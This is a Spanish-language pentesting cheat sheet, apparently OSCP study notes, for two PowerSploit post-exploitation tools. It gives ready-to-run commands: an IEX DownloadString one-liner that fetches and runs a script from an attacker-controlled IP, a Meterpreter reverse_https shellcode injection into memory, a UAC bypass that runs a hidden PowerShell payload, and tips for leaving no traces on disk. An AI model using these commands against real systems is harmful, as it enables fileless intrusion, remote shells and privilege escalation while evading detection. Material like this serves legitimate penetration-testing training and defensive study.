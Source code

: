 Ambos comandos pertenecen a PowerSploit y son extremadamente útiles para post-explotación y ejecución de payloads sin escribir en disco. Muy efectivos cuando estás en una sesión `Evil-WinRM` o una shell con acceso a PowerShell.

---

## 1. Invoke-Shellcode (en PowerSploit)

Permite inyectar shellcode directamente en la memoria, sin tocar disco. Ideal para ejecutar payloads de `msfvenom` o Meterpreter en modo fileless.

### Cargar PowerSploit en sesión PowerShell:
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<tu_ip>/PowerSploit/CodeExecution/Invoke-Shellcode.ps1')
```

### Inyectar shellcode de Metasploit:
```powershell
Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost <tu_ip> -Lport 443 -Force
```

> Requiere que tengas un handler en `msfconsole` escuchando el payload correspondiente.

---

## 2. Invoke-PsUACme

Herramienta para bypass de UAC (User Account Control) en sistemas donde tienes acceso como usuario sin privilegios completos. Usa técnicas legítimas de ejecución que elevan privilegios a administrador si el contexto lo permite.

### Cargar módulo (si lo tienes subido):
```powershell
. .\Invoke-PsUACme.ps1
```

### Ejecutar (intentará elevar a admin):
```powershell
Invoke-PsUACme -Payload "powershell -nop -w hidden -c whoami"
```

Puedes reemplazar el payload con cualquier comando o incluso otro script.

---

## Casos de Uso OSCP

- `Invoke-Shellcode`: cuando tienes una sesión pero no puedes escribir en disco
- `Invoke-PsUACme`: para escalar privilegios en máquinas Windows con UAC débil

---

## Buenas Prácticas

- Usa WebDAV, `Invoke-WebRequest` o `http.server` para servir los scripts
- Siempre prueba `whoami` antes de lanzar algo agresivo
- Evita dejar restos en disco: usa variables o ejecución en memoria

---
